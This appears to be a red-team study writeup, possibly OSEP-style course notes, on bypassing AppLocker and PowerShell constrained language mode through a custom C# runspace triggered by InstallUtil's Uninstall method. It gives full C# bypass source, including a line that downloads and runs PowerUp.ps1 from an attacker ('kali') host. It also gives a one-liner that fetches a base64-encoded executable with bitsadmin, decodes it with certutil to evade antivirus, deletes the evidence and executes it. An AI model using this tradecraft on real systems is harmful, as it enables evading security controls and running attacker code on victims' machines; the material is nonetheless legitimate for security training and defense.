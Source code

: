 PowerShell.exe is essentially a GUI application handling input and output. The real functionality lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to create a runspace.
It is possible to leverage multithreading and parallel task execution through either Jobs or Runspaces. The APIs for creating a runspace are public and available to managed code written in C#.
This means we could code a C# application that creates a custom PowerShell runspace and executes our script inside it. This is beneficial since, custom runspaces are not restricted by AppLocker.
we can construct a constrained language mode bypass to allow arbitrary PowerShell execution.

We will have to bypass AppLocker executable rules to execute this C# code, we ca use native Windows applications( InstallUtil) that can be abused to bypass AppLocker by fooling the filter driver.
we will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. This Microsoft-supplied tool obviously has legitimate uses, but we can abuse it to execute arbitrary C# code.

To use InstallUtil in this way, we must put the code we want to execute inside either the install or uninstall methods of the installer class.

We are only going to use the uninstall method since the install method requires administrative privileges to execute.

create a new C# Console App project, we'll create a runspace through the CreateRunspace method of the System.Management.Automation.Runspaces namespace and Unfortunately, Visual Studio can not locate System.Management.Automation.Runspaces.
to resolve this, we must manually add the assembly reference, C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35 folder where we will select System.Management.Automation.dll.
Also refer System.Configuration.Install namespace, Assemblies menu > System.Configuration.Install

Although our code uses both the Main method and the Uninstall method, content in the Main method is not important in this example. However, the method itself must be present in the executable.
Since the content of the Main method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the Uninstall method, we can execute arbitrary C# code i.e custom runspace code. 

Custom runspace C# code inside Uninstall method:

      using System;
      using System.Management.Automation;
      using System.Management.Automation.Runspaces;
      using System.Configuration.Install;
      
      namespace Bypass
      {
          class Program
          {
              static void Main(string[] args)
              {
                  Console.WriteLine("This is the main method which is a decoy");
              }
          }
      
          [System.ComponentModel.RunInstaller(true)]
          public class Sample : System.Configuration.Install.Installer
          {
              public override void Uninstall(System.Collections.IDictionary savedState)
              {
                  String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\test.txt";
                  
                  ***<comment>String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<kali ip>/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt"; <comment>***
                  
                  Runspace rs = RunspaceFactory.CreateRunspace();
                  rs.Open();
      
                  PowerShell ps = PowerShell.Create();
                  ps.Runspace = rs;
      
                  ps.AddScript(cmd);
      
                  ps.Invoke();
      
                  rs.Close();
              }
          }
      }

Before compiling the project, we'll switch from "Debug" to "Release" mode and select 64-bit for compilation.

To trigger our constrained language mode bypass code, we must invoke it through InstallUtil with /logfile to avoid logging to a file, /LogToConsole=false to suppress output on the console and /U to trigger the Uninstall method

    C:\Users\>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Bypass.exe

At this point, it would be possible to reuse this tradecraft with the Microsoft Word macros we developed earlier since they are not limited by AppLocker. Instead of using WMI to directly start a PowerShell process and download the shellcode runner from our Apache web server, we could make WMI execute InstallUtil and obtain the same result despite AppLocker.

The compiled C# file has to be on disk when InstallUtil is invoked. This requires two distinct actions. First, we must download an executable, and secondly, we must ensure that it is not flagged by antivirus, neither during the download process nor when it is saved to disk. we can use other native Windows binaries, which are whitelisted by default.

To attempt to bypass anitvirus, we are going to obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk. Well use the native certutil3 tool to perform the encoding and decoding and bitsadmin for the downloading.

Base64 encoding the executable with certutil: 

      cmd> certutil -encode C:\Users\\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt

Certutil can also be used to download files over HTTP(S), but this triggers antivirus due to its widespread malicious usage. 

Complete combined command to download, decode and execute the bypass: 

      cmd>bitsadmin /Transfer myJob http://<kali ip>/file.txt C:\users\enc.txt && certutil -decode C:\users\enc.txt C:\users\Bypass.exe && del C:\users\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\Bypass.exe


